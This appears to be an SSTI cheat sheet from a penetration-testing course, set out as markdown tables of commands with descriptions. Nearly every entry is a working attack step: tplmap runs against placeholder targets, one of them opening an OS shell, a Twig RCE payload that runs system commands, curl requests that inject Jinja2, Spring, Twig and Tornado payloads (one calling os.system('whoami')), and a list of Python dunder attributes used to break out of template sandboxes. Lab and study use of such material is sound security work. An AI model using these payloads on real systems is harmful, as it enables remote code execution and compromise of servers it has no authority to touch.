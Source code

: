 | `./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john`                                                | Running tplmap against the target                                                                                  |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell`                                     | Running tplmap with the os-shell option                                                                            |
| `{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}` | Twig RCE payload                                                                                                   |

### SSTI Exploitation Example 2

| **Command**                                                                                            | **Description**                                                      |
| ------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------- |
| `curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam`                                 | Interacting with the remote target (Spring payload)                  |
| `curl -X POST -d 'email={{_self.env.display("TEST"}}' http://<TARGET IP>:<PORT>/jointheteam`           | Interacting with the remote target (Twig payload)                    |
| `curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam`                     | Interacting with the remote target (Jinja2 basic injection)          |
| `curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam`       | Interacting with the remote target (Jinja2 dump all classes payload) |
| `curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Tornado payload)                 |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah`                                 | Automating the exploitation process with tplmap                      |

### SSTI Exploitation Example 3

| **Command**                                                  | **Description**                                                     |
| ------------------------------------------------------------ | ------------------------------------------------------------------- |
| `curl -gs "http://<TARGET IP>:<PORT>/execute?cmd={{7*'7'}}"` | Interacting with the remote target (Confirming Jinja2 backend)      |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>/execute?cmd'`     | Automating the templating engine identification process with tplmap |
| `python3`                                                    | Starting the python3 interpreter                                    |

| **Methods**      | **Description**                                                                                                                     |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------------------- |
| `__class__`      | Returns the object (class) to which the type belongs                                                                                |
| `__mro__`        | Returns a tuple containing the base class inherited by the object. Methods are parsed in the order of tuples.                       |
| `__subclasses__` | Each new class retains references to subclasses, and this method returns a list of references that are still available in the class |
| `__builtins__`   | Returns the builtin methods included in a function                                                                                  |
| `__globals__`    | A reference to a dictionary that contains global variables for a function                                                           |
| `__base__`       | Returns the base class inherited by the object                                                                                      |
| `__init__`       | Class initialization method                                                                                                         |
